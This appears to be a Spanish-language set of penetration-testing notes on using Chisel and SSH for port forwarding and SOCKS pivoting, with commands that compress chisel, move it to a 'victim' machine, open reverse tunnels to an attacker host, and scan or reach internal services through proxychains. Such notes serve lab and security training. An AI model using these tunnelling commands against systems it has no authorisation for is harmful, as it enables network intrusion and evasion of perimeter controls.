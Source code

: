 ## Chisel 

Tags: #Chisel #PortForwarding #LocalForwarding #DinamicForwarding 

#### Local Port Forwarding 
Nos permite redirigir todo el trafico entrante de un puerto local hacia un puerto remoto.
Server -> Windows 
Cliente -> Kali

1. Podemos clonarlo a nuestra maquina victima 
```bash
❯ git clone https://github.com/jpillora/chisel       # Nos descargamos el Chisel
```

Dentro de Chisel 
```bash
❯ go build -ldflags “-s -w” .                        # Nos ayudara a reducir el tamaño del compilado 
❯ upx Chisel                                         # Para reducir aun mas el tamaño
```

2. Podemos descargarlo directamente desde la pagina 
* [Chisel](https://github.com/jpillora/chisel)    ->    'Web Page > releases > chisel_1.8.1_linux_amd64.gz'

3. Debemos transferirlo a la maquina victima mediante un servidor HTTP 

4. Lo ejecutamos de la siguiente manera 
* De esta manera nos podemos traer un puerto especifico
```bash
❯ ./chisel server --reverse -p 1234                                                 # Server 'Maquina de atacante'
❯ ./chisel client <IP-Server>:1234 R:<Port-Local-a-Abrir>:<IP-Local>:<Port-Traemos> # Cliente 'Maquina victima'

	# R = Remote Port Forwarding
	# IP-Server = IP de la maquina atacante
	# Port-Server = Puerto de la maquina atacante
	# Port-Local = Puerto que vamos a traer de la maquina victima
	# IP-Local = IP del Localhost de la maquina victima 
	# Port-Traemos = Puerto que vamos a abrir en nuestra maquina
```

* De esta manera nos crea un túnel desde la maquina de atacante hacia la maquina victima
```bash
❯ ./chisel server --reverse -p 1234                                             # Server 'Maquina de atacante'
❯ ./chisel client <IP-Server>:1234 R:socks                                      # Cliente 'Maquina victima'

	# R = Remote Port Forwarding
	# IP-Server = IP de la maquina atacante
	# Port-Server = Puerto de la maquina atacante
     # socks = Abre el puerto 1080 de nuestra de atacante y nos crea un tunel para llegar a la maquina victima 
```

Debemos de hacer los siguientes cambios después de crear el túnel 
```bash 
❯ nano /etc/proxychains.conf 

# Comentamos el Dinamic_chain, este solo se habilita cuando vamos pasando por varios tuneles
# Activamos el strick_chain, este solo es cuando tenemos un tunel 
# Hasta abajo del archivo agregamos lo siguiente:

sock5 127.0.0.1 1080 
```

Forma de verificar 
```bash 
❯ proxychains nmap -sT -Pn -p- -open -T5 -v -n ❮Target IP❯ 2>/dev/null      # Proxychains nos ayudara a que el comando pase por el tunel creado por chisel 
```


#### Dinamic Port Forwarding 

Modificaremos:
```bash
❯ nano /etc/proxychains.conf                            # Modificaremo este archivo en nuestra maquina
	socks4 127.0.0.1 1080                              # Haremos que la conexion para nuestra maquina se efectue en el puerto 1080
```

```bash
❯ ssh < user>@< IP> -D 1080                             # Para conectarnos por ssh (D=Dinamic Port Forwarding) y colocamos el puerto que anteriormente habiamos configurado.
❯ proxychains vncviewer -passwd secret 127.0.0.1:5901   # Nos conectamos por vncviewer y nos arrojara el cuadro remoto de la conexion (5901=puerto remoto expuesto en la maquina victima)

	# secret -> Archivo que contiene la passwd para la conexion
```